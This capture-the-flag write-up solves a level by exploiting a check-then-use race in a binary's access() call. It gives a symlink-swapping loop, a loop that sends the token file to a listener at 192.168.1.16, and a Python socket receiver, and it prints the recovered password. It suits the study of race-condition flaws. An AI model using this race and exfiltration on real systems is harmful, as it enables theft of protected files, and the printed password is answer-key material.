

<h2>Level 10</h2>


In this level we have `level10` executable and a `token` file

We do not have any permission on the `token` file so lets try to run `level10` to see what this program does


It seems that `level10` is sending the file in the 1st argv to the host in the 2nd argv if we have the permission of that file

Lets use `ltrace` to check analyze further


When we analyze with the token file, we can see that it is calling `access()` to check something and it return -1 and printf `You dont't have access`

While in the other test, it return 0 and continue to connect to the host

Lets make a simple python server in our local machine to capture the file.

This is a good example on how to create a simple python server
```console
https://realpython.com/python-sockets/#echo-client-and-server
```

```console
#!/usr/bin/env python3

import socket

HOST = '192.168.1.16'
PORT = 6969

with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
    s.bind((HOST, PORT))
    s.listen()
    conn, addr = s.accept()
    with conn:
        print('Connected by', addr)
        while True:
            data = conn.recv(1024)
            if not data:
                break
            print('Data received: {}'.format(data))
            conn.sendall(data)
```

Now lets run our python server in local machine, and back to the VM to run `level10` to see what happen if the host is connected.


We can see that if we succesfully connect to the host and we have the right permissions on the file, it will write the file content to our local machine server

If we are able to hack the `level10`, we can potentially let it write the content of `token` file for us.

When we analyze `level10` with ltrace, we can see that it is using `access()` to check for the permission, lets check what this is with `man access`


In the `man` it said that `access()` have a security hole and is not safe to use

And in the following link
```console
https://security.stackexchange.com/questions/42659/how-is-using-acces-opening-a-security-hole
```


Someone explain that we can exploit the small time between the checking of the permission and the reading of the file

First we will let the program do `access` on the file that we have the permission on, once it checked that the file is okay, we will quickly do a `symlink` to `token` file

Since a program execution is very fast, human speed could never exploit that small little time frame, so we should use machine to fight with machine
```console
while true; do ln -fs ~/.profile /tmp/exploit; ln -fs ~/token /tmp/exploit; done
```

In the current folder, if we do `ls -la` we could actually see some hidden file like `.profile` which we have the permission on.

So we can do a while loop which will keep linking `/tmp/exploit` between `.profile` and `token`, and trick the `level10` using another while loop
```console
while true; do ./level10 /tmp/exploit 192.168.1.16; done
```

Now this will keep execute the `level10` with the `/tmp/exploit` file, meanwhile the 1st while loop is alternatively linking it back and forth between `.profile` and `token`


It may not success at the first time, but we can keep to rerun the server again 

Eventually we will get the password from the token `woupa2yuojeeaaed06riuj63c`



Using this password, we finally get our flag for the next level~  :partying_face: :tada: :tada: :tada:

*UPDATE*
We could actually use `nc -lk 127.0.0.1 6969` and use the VM localhost instead of creating a python server, just learned this after attempt to solve level11 :(